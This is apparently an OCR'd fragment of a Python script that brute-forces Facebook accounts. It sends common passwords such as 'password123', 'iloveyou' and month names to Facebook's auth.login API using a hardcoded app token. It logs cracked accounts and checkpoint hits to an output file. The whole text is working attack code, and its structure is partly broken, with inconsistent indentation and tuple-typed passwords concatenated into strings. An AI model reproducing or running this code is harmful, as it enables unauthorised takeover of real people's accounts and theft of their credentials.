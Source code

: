 										else:
											#Pass5
											pass5 = "@@@###","bangladesh"
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
												z = json.loads(x.text)
												print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass5+" =>"+z['name'])
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													check_it = open("out/output.txt", "a")
													check_it.write(user+"|"+pass5+"\n")
													check_it.close()
													checkpoint.append(user+pass5)
												else:
													#Pass6
													pass6 = "freefirebd","freefire786"
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
														z = json.loads(x.text)
														print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass6+" =>"+z['name'])
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															check_it = open("out/output.txt", "a")
															check_it.write(user+"|"+pass6+"\n")
															check_it.close()
															checkpoint.append(user+pass6)
														else:
															#Pass7
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+fb_token)
															b = json.loads(a.text)
															pass7 = "1234567890","password123","10203040","someone","diamondsellbd","iloveyou","princess","playboy"
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
																z = json.loads(x.text)
																print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass7+" =>"+z['name'])
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	check_it = open("out/output.txt", "a")
																	check_it.write(user+"|"+pass7+"\n")
																	check_it.close()
																	checkpoint.append(user+pass7)
                                                                                                                                else:
                                                                                                                                        #Pass8
                                                                                                                                         a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+fb_token)
                                                                                                                                         b = json.loads(a.text)
                                                                                                                                         pass8 = "january","february","march","april","may","june","july","august","september","november","december"